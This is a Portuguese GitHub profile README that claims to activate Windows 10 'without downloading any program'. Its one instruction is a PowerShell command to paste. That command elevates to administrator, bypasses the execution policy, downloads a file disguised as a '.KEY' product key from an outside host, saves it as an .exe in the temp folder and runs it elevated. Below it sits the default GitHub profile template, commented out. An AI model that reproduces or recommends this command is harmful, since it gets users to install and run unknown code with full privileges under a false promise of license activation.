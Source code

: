 


#⚡ Como ativar Windows 10 da correta, sem baixar programa algum. Ative o Windows 10 apenas usando comando do nativos do Windows PowerShell (admin).


## Para ativar o Windows 10 copie e cole o comando no PowerShell do Windows.


### ATENÇÃO ::::: Copie o comando completo

> `if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) { Start-Process powershell.exe '-NoProfile -ExecutionPolicy Bypass -Command ""(New-Object System.Net.WebClient).DownloadFile(\""https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY\"", \""$($env:TEMP)\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe\""); Start-Process \""$($env:TEMP)\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe\"" -Verb RunAs; exit}"' -Verb RunAs; exit`

<!--



**ativarwindows/ativarwindows** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
